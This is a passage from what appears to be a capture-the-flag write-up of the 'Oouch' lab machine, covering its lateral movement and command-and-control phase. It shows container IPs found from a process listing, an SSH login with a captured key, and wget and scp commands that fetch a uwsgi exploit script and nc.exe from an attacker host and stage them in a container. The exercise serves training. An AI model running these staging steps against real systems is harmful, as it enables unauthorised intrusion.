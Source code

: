 www-data is the user that we needed. Use this command to find docker and container ip:

```bash
ps -ef f
```
```
root      2052     1  0 14:28 ?        Ssl    0:02 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root      2633  2052  0 14:28 ?        Sl     0:00  \_ /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 5000 -container-ip 172.18.0.4 -container-port 5000
root      2662  2052  0 14:28 ?        Sl     0:00  \_ /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8000 -container-ip 172.18.0.5 -container-port 8000
```

```bash
ssh -i id_rsa qtc@172.18.0.4
```

There's an unsual code directory in /.

![ssh_result](images/Oouch13.png)

### Phase 6: Command and Control (C2)

If we google for exploit we will need to go at 'https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py' and grab a script. Delete 2 lines 18 & 19. We already strated python server so let's download it to our victim machine:

```bash
wget http://10.10.14.68:8000/exploit.py
wget http://10.10.14.68:8000/nc.exe
```

Next we need to upload it to docker container:

```bash
scp exploit.py qtc@172.18.0.4:/tmp/exploit.py
scp nc.exe qtc@172.18.0.4:/tmp/nc.exe
```
